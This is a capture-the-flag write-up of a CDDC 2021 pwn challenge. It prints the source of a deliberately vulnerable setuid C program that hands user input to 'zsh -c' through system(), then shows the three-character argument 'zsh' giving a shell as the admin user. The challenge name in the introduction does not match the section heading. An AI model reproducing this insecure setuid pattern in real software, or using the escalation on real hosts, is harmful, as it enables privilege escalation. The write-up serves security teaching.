 ## [Up 1 directory](../CDDC_2021.md)
  
# File it Away  
This is a set of pwn challenges hosted during CDDC 2021.
  
The only challenge documented here will be "Length matters", as the other solved challenge  
did not have a provided binary and the target server has since been shut down. This challenge  
is super simple, almost braindead but it took me slightly longer than expected to solve due  
to overthinking.
  
## Mounting
### Points: 200
### Challenge text:
(forgot, but the IP and port was provided.)
  
### Solution
The first step was to connect to the IP and port over netcat. This drops us into a linux  
shell. The following files were accessible:
  
```
ls
flag  gdc_exec  gdc.c
```  
The gdc_exec binary was owned by the user "admin" and had the setuid bit set. The contents  
of gdc.c are shown here:  
  
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>


int main(int argc, char *argv[])
{
        char command[50];
        char pref[] = "zsh -c ";

        if (argc == 1) return 0;

        bzero(command, 50);
        strcpy(command, pref);

        strncpy(command + strlen(command), argv[1], 3);

        setreuid(geteuid(), geteuid());

        system(command);

        return 0;
}
```
  
This is the source code for the gdc_exec binary. It checks the length of argv[1] and  
concatenates it to 3 characters. It then executes it with zsh. The simplest solution to  
this is to pass "zsh" as the argument, since this uses zsh to spawn a zsh shell with the  
effective uid of the "admin" user (due to the setuid bit on gdc_exec).
  
This was replicated in my local machine for the purpose of this writeup. The original flag  
was not documented :C.
  
```
# 
# ./gdc_exec zsh
➜  Desktop cat flag
CDDC21{test flag}
➜  Desktop 
```